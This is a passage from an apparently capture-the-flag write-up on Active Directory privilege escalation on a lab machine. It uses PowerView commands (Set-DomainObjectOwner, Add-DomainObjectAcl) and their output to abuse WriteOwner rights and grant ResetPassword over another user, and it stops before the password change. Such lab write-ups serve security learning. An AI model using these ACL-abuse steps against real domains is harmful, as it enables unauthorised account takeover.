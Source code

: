 ## Escalation Privilege  
### Tom => Claire  

**Concepts Importants!!**
**WriteOwner** : Provides the ability to take ownership of an object. The owner of an object can gain full control rights on the object.  
**GenericWrite** : Provides write access to all properties.  
**WriteDacl** : Provides the ability to modify security on an object which can lead to Full Control of the object.  

To move to the claire account, we will use the WriteOwner permission along with the functionality of PowerView.  
In summary, we must perform the following steps:  
  - 1.) Become owner of claire’s ACL  
  - 2.) Get permissions on that ACL  
  - 3.) Use those permissions to change the password  
To achieve this, we will need PowerView, and PowerShell.  
Fortunately, there’s a copy in **C:\Users\tom\Desktop\AD Audit\BloodHound**, We are going to start powershell and import Powerview.  

{% highlight powershell %}
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound> powershell
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.

PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module ‘C:\Users\tom\Desktop\AD Audit\BloodHound\PowerView.ps1’
{% endhighlight %} 

**Step 1**  
Next, tom has WriteOwner rights on the claire user object. So set tom as the owner of claire object.  
{% highlight powershell %}
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
{% endhighlight %} 

**Step 2**  
Now that tom is the owner of the claire object, tom can add entries to the ACL. Add an entry giving tom the right to change the password of the claire object.  

{% highlight powershell %}
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC=HTB,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=tom)(name=tom)(displayname=tom))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC=HTB,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=claire)(name=claire)(displayname=claire))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Tom Hanson,CN=Users,DC=HTB,DC=LOCAL 'ResetPassword' on CN=Claire
Danes,CN=Users,DC=HTB,DC=LOCAL
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Tom Hanson,CN=Users,DC=HTB,DC=LOCAL rights GUID 
'00299570-246d-11d0-a768-00aa006e0529' on CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL
{% endhighlight %}  
